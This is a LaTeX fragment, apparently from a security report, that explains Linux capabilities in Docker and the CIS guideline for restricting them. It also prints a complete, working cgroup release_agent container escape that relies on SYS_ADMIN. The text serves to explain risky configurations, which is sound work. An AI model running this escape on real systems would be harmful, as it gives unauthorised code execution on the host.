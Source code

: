 \subsection{Capabilities}
To perform a privileged Linux kernel action, the process needs the relevant \lstinline{capability}. \lstinline{capabilities}\footnote{See the \lstinline{man page} of \lstinline{capbilities}}
 are a Linux feature that allow specific privileged actions (e.g.\ sending raw packets). A process running as \lstinline{uid} 0(\lstinline{root}) has all capabilities.
 Processes in a Docker container are given minimum capabilities, but if needed it is possible to add extra capabilities using the \lstinline{--cap-add} argument. It is also possible to drop unnecessary capabilities using the \lstinline{--cap-drop}. In privileged mode, the container has all capabilities.

\hfill

Giving containers extra capabilities, gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities.

\hfill

The CIS Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{SYS_ADMIN}}{SYS_ADMIN}}
The Docker escape by Felix Wilhelm\cite{Felix-Wilhem-Tweet} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{SYS_ADMIN} capability.

\begin{lstlisting}[caption={Docker escape using \lstinline{SYS_ADMIN}},captionpos=b]
(host)$ docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

